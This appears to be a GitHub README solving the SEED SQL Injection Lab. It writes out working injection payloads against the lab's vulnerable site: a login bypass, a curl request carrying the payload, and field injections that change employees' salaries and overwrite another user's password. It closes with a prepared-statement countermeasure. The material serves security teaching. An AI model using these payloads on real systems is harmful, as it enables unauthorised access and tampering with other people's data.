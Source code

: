 # SEED-SQL-Injection-Lab
SEED SQL Injection Lab complete solution Code and Screenshots added in PDF file. 

Lab Tasks
Task 1: Get Familiar with SQL Statements 

$ mysql -u root -pseedubuntu

mysql> show databases;

mysql> use Users;


mysql> show tables;

mysql>  select * from credential where name = ‘Alice’;

 
 

Task 2.1: SQL Injection Attack from webpage.

Type “ admin’ # ” in the Username field and leave empty the password field. 
 
Task 2.2: SQL Injection Attack from command line.

Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
 
 

Task 3.1: Modify your own salary.
As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords; they are not authorized to change their salaries. Assume that I am Alice. I want to increase my own salary by exploiting the SQL injection vulnerability in the Edit-Profile page. I know that salaries are stored in a column called salary.

I will use the statement ine the NickName field: 

', Salary=10000 where name = ‘Alice’ #
 
Task 3.2: Modify other people’ salary.

I want to reduce Boby’s salary to 1 dollar.

Use statement in Alice’s profile editor: ', Salary=1 where name = ‘Boby’ # 
 

Task 3.3: Modify other people’ password.

I want to change Boby’s password that I can log into his account and do further damage.
It uses SHA1 hash function to generate the hash value of password.

Use the following statement:

echo -n “tedwashere” | sha1sum
 

Copy the code you get and paste in Alice’s profile editor as the following statement:

', password=(code you copied) where name = ‘Boby’ #
  
Task 4: Countermeasure — Prepared Statement.


seed@VM:-$ /var/www/SQLInjection/ bash: /var/www/SQL Injection/: Is a directory

seed@VM:-$ cd /var/www/SQLInjection/ 

seed@VM: .../SQLInjections ls

seed@VM:.../SQLInjections subl safe_home.php

seed@VM:.../SQLInjection$ subl unsafe_home.php

After exicute these codes copy the code from line 70 to 80 in SAFE_HOME_PHP and paste over the line 70 to 100 in UNSAFE_HOME_PHP file then save the code file.
after saving run these codes in terminal.

[10/30/21] seed@VM: .../SOLInjection$ cd .. 

[10/30/21] seed@VM:.../www$ cd..

[10/30/21] seed@VM:/var$ cd

[10/30/21] 11seed@VM:/$ sudo service apache2 reset

[10/30/211seed@VM:/$

 
   
 
